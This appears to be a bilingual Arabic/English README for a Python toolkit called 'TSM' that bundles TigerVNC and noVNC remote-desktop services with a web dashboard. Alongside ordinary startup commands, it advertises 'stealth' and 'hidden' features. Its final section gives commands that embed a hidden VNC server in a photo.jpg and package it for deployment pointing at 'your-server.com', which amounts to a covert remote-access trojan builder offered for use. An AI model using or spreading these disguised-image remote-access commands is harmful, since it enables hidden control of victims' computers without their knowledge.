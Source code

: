 ### 1. لوحة تحكم ويب متقدمة | Advanced Web Dashboard
- ✅ **مراقبة حالة النظام** في الوقت الفعلي
- ✅ **تحكم في VNC** من المتصفح
- ✅ **إدارة الملفات** عبر الواجهة
- ✅ **إعدادات الأمان** والخفاء

### 2. TigerVNC عالي الأداء | High-Performance TigerVNC
- ✅ **أداء محسن** للشاشات عالية الدقة
- ✅ **ضغط متقدم** للبيانات
- ✅ **دعم متعدد العملاء**
- ✅ **تكامل مع Windows**

### 3. noVNC للتحكم عبر المتصفح | Browser-based Control
- ✅ **لا حاجة لتثبيت** برامج إضافية
- ✅ **واجهة ويب** متقدمة
- ✅ **دعم WebSocket** للاتصال المباشر
- ✅ **تكامل مع TSM** المخفي

### 4. نظام VNC متكامل | Integrated VNC System
- ✅ **دمج جميع الأنظمة** في مكان واحد
- ✅ **تبديل سهل** بين الأنواع المختلفة
- ✅ **إدارة موحدة** لجميع الخدمات
- ✅ **مراقبة شاملة** للأداء

## 🔧 الاستخدام المتقدم | Advanced Usage

### تشغيل التكامل الكامل | Run Complete Integration
```bash
# بدء جميع الخدمات
python TSM_Complete_Integration.py start localhost 8080 5900

# الوصول للخدمات:
# - TigerVNC: localhost:5900
# - noVNC Dashboard: http://localhost:8080
# - Web VNC: http://localhost:8081
```

### تشغيل خدمة واحدة | Run Single Service
```bash
# TigerVNC فقط
python TSM_Complete_Integration.py tigervnc 5900

# noVNC Dashboard فقط
python TSM_Complete_Integration.py novnc localhost 8080

# Web VNC فقط
python TSM_Complete_Integration.py webvnc localhost 8081
```

### إنشاء صورة مخفية مع VNC | Create Stealth Image with VNC
```bash
# إنشاء صورة مع VNC مخفي
python TSM_StealthMode.py create photo.jpg localhost 5900

# إنشاء حزمة نشر كاملة
python TSM_StealthMode.py package photo.jpg your-server.com 5900
```
